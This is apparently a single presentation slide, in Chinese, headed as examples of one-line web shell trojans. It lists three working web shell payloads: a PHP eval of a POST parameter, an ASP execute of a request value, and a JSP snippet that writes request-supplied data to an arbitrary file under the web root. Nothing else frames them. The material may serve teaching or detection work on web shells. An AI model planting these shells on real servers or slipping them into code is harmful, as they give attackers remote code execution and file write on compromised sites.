

# WebShell一句话木马案例
PHP的一个一句话木马
	<?php eval($_POST['a']);?>
ASP的一个一句话木马
	<%execute request("value")%>
JSP的一个一句话木马
	<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>